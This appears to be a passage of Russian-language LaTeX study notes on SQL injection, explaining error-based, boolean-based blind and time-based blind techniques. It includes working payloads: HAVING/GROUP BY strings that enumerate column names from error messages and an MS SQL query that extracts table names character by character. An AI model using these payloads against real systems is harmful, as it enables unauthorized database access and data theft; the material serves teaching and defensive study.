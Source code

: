 \begin{itemize}
    \item \textbf{Error-based injection}\\
    Инъекции, основанные на том, что злоумышленник может видеть вывод ошибки. Уязвимость устраняется просто отключением этого вывода

    Последовательное выполнение следующих запросов может помочь определить в тексте ошибки названия столбцов:\\
    \begin{grayquote}
        ' HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1 HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --\\
        .....\\
        ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --\\
        Если ошибки перестали появляться, значит столбцы закончились
    \end{grayquote}

    \item \textbf{Boolean-based blind injection}\\
    Если атакующий все же может получить информацию о наличии или отсутствии ошибки из HTTP-статуса, в сервисе имеется уязвимость к обычной слепой атаке. Рассмотрим запрос, который позволит нам при помощи алгоритма бинарного поиска посимвольно определить название первой таблицы и в дальнейшем всех данных

    \begin{grayquote}
        TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND \\
        ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND\\
        name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--\\
        \#Этот запрос говорит нам, что ASCII-значение первого символа больше 78 \\
        \#дальнейший перебор определит точное значение
    \end{grayquote}

    \item \textbf{Time-based blind injection}\\
    Если атакующий не наблюдает никаких отличий в ответах сервера, можно попробовать SLEEP или WAIT FOR DELAY


\end{itemize}
